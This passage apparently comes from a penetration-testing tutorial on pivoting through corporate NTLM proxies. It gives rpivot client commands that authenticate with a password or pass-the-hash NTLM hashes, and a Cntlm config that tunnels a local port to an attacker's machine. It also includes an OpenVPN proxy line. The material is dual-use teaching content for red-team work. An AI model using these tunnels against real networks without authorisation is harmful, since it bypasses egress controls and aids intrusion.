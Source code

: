 <div>

    python client.py --server-ip <rpivot_server_ip> --server-port 9999\
    --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
    --username Alice --password P@ssw0rd

</div>

Or if you have LM:NT hashes instead of password:

<div>

    python client.py --server-ip <rpivot_server_ip>\
    --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
    --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45

</div>

#### Cntlm

[Cntlm](http://cntlm.sourceforge.net/) is the tool of choice for running
any non-proxy aware programs over NTLM-proxy. Basically this tool
authenticates against a proxy and binds a port locally that is forwarded
to the external service you specify. This port bound does not require
any authentication so you can use your tools directly (putty/ssh for
example). It uses a config file for its operation. Here’s a barebones
config example to forward port 443 (this port is most likely to be
allowed through the proxy):

<div>

    Username Alice
    Password P@ssw0rd
    Domain CONTOSO.COM
    Proxy 10.0.0.10:8080
    Tunnel 2222:<attackers_machine>:443

</div>

Run it:

`cntlm.exe -c config.conf`

Or if you’re on Linux:

`./cntlm -c config.conf`

Now, given you have ssh running on the remote host on port 443, you can
launch ssh client (openssh/putty) and connect to local port 2222 to get
access to the external machine.

#### OpenVpn over HTTP proxy

[OpenVpn](https://openvpn.net/index.php/open-source/documentation/howto.html)
is huge so its configuration from the ground up is out of scope of this
post. Just a quick mention - it also supports tunneling tcp connections
over NTLM proxies. Add this line to your config file:

`http-proxy <proxy_ip> 8080 <file_with_creds> ntlm`
